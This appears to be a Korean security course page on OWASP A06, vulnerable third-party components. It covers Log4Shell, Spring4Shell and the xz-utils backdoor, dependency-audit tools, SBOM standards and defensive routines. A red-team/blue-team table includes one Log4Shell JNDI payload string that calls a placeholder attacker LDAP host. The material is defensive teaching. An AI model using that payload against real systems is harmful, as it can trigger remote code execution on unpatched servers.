

# W09 — A06 Vulnerable Components

> 외부 lib 의 *알려진 vuln 사용*. *직접 코드 X*. SCA + SBOM 의 *2 표준* 으로 audit.

## 핵심 사례 (역대 최대)
- **Log4Shell** (CVE-2021-44228) — Log4j JNDI, CVSS 10.0
- **Spring4Shell** (CVE-2022-22965) — Spring RCE, CVSS 9.8
- **xz-utils** (CVE-2024-3094) — Jia Tan 2년 social, CVSS 10.0

## SCA 5 도구
- npm audit / yarn audit (Node)
- pip-audit (Python)
- Snyk / Dependabot (다언어)
- retire.js (client JS)
- OWASP Dependency-Check (Java)

## SBOM (Software Bill of Materials)
- **CycloneDX** (OWASP) — XML/JSON
- **SPDX** (Linux Foundation) — RDF
- *모든 component + version + license + hash* 의 표준

## 방어 4 표준
1. *모든 dependency* 의 *최신 stable* 유지
2. *주 1 회* SCA 자동 (CI 통합)
3. *direct + transitive* dependency 모두 audit
4. *unmaintained* lib (last update > 1 년) 의 *교체*

## R/B/P 시나리오 — Vulnerable Components



### Coverage Matrix

| 시도 | Red | Blue SCA | Blue WAF | Purple routine |
|------|-----|---------|---------|----------------|
| **① 0-day Log4Shell** | `${jndi:ldap://attacker/x}` | 미감지 (0-day = signature 없음) | ModSec custom rule (즉시) | NVD sync + CI scan |
| **② transitive dep** | nested dep 의 vuln | SCA 의 transitive 추적 | application layer | SBOM 의 영구 기록 |
| **③ unmaintained lib** | 2년+ 의 unmaintained vuln | SCA 의 last_updated alert | N/A | 분기 audit + 대체 plan |

### 핵심 인사이트 (5 항)

1. **0-day 의 WAF 즉시 룰 의 가치** — 패치 전 의 1차 방어선. ModSec custom rule 의
   community 의 30분 내 배포 (Log4Shell 사례).

2. **transitive dependency 의 추적 의 어려움** — direct 의 audit 만 = 50% coverage.
   transitive 추적 = SCA 도구 의 필수 기능 + CI 통합.

3. **SBOM 의 의무 화 movement** — 미국 EO 14028 + EU NIS2. 운영 의 매 build 의
   SBOM 자동 생성 + 영구 기록.

4. **unmaintained lib 의 risk** — last_update > 1년 = 0-day 패치 안 됨. SCA 의
   분기 review + 대체 plan routine.

5. **xz-utils (2024) 의 교훈** — 2년 social engineering + 의도 적 backdoor.
   maintainer trust 의 verification + signed commit 의 routine.

## 자기 점검
```
[ ] Log4Shell + Spring4Shell + xz-utils 의 *5 항목* 응답?
[ ] SCA 5 도구 + SBOM 2 표준 응답?
[ ] direct vs transitive dependency 응답?
```
